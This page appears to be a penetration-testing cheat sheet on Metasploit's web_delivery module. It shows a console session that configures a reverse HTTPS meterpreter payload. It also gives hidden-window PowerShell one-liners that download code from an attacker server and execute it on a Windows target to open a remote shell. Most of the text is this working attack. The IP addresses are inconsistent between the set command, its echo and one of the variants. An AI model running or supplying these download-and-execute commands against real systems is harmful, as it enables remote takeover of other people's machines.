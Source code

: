 ## Metasploit Web Delivery

[Metasploit Web Delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/)

Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

```
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH


msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(web_delivery) > set lhost 10.10.10.10
lhost => 14.97.131.138
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.10.10.10.:8443
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
[*] Local IP: http://10.10.10.10:8080/uMOKs6wtlYL
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://10.10.10.10:8080/uMOKs6wtlYL');
```

When the following command \(when there is no proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://10.10.10.108:8080/uMOKs6wtlYL');
```

or \(when there is proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://10.10.10.10:8080/uMOKs6wtlYL');
```

is executed on the windows remote machine, we should get a meterpreter.

```
Delivery web_delivery payload
meterprerter>
```



